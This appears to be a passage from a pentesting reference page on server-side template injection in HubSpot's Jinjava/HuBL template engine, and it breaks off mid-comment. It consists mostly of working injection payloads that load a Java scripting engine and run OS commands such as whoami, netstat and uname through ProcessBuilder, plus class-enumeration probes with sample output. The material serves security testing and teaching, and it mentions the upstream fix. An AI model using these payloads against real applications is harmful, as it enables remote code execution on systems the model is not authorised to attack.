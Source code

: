 Fixed by [https://github.com/HubSpot/jinjava/pull/230](https://github.com/HubSpot/jinjava/pull/230)



```
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```

**More information**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#hubspot-hubl-java)

Hubspot - HuBL (Java)

- `{% %}` statement delimiters
    
- `{{ }}` expression delimiters
    
- `{# #}` comment delimiters
    
- `{{ request }}` - com.hubspot.content.hubl.context.TemplateContextRequest@23548206
    
- `{{'a'.toUpperCase()}}` - "A"
    
- `{{'a'.concat('b')}}` - "ab"
    
- `{{'a'.getClass()}}` - java.lang.String
    
- `{{request.getClass()}}` - class com.hubspot.content.hubl.context.TemplateContextRequest
    
- `{{request.getClass().getDeclaredMethods()[0]}}` - public boolean com.hubspot.content.hubl.context.TemplateContextRequest.isDebug()
    

Search for "com.hubspot.content.hubl.context.TemplateContextRequest" and discovered the [Jinjava project on Github](https://github.com/HubSpot/jinjava/).



```
{{request.isDebug()}}
//output: False

//Using string 'a' to get an instance of class sun.misc.Launcher
{{'a'.getClass().forName('sun.misc.Launcher').newInstance()}}
//output: sun.misc.Launcher@715537d4

//It is also possible to get a new object of the Jinjava class
{{'a'.getClass().forName('com.hubspot.jinjava.JinjavaConfig').newInstance()}}
//output: com.hubspot.jinjava.JinjavaConfig@78a56797

//It was also possible to call methods on the created object by combining the 


```